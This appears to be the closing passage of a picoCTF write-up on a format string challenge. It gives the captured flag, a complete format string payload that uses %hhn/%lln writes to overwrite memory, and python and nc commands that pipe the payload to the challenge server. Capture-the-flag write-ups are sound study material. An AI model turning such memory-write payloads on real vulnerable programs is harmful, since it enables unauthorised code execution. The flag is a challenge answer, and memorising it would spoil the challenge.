 This garbled mess contains the flag: `picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}`, and the final payload is:
```
%102c%20$llnc%21$hhn%5c%22$hhn%245c%23$hhnaaaaba`@@\x00\x00\x00\x00\x00c@@\x00\x00\x00\x00\x00a@@\x00\x00\x00\x00\x00b@@\x00\x00\x00\x00\x00
```
We can test this using the commands:
```bash
 python3 -c 'print("%102c%20$llnc%21$hhn%5c%22$hhn%245c%23$hhnaaaaba`@@\x00\x00\x00\x00\x00c@@\x00\x00\x00\x00\x00a@@\x00\x00\x00\x00\x00b@@\x00\x00\x00\x00\x00")' > payload.txt
cat payload.txt | nc rhea.picoctf.net 58955
```
Knowing the shape of the final payload, I'm glad that someone figured all this out before me, though I would like to be able to do it by hand eventually. I'm frequently impressed with how clever pwntools can be. We ought to watch out so it doesn't become sentient.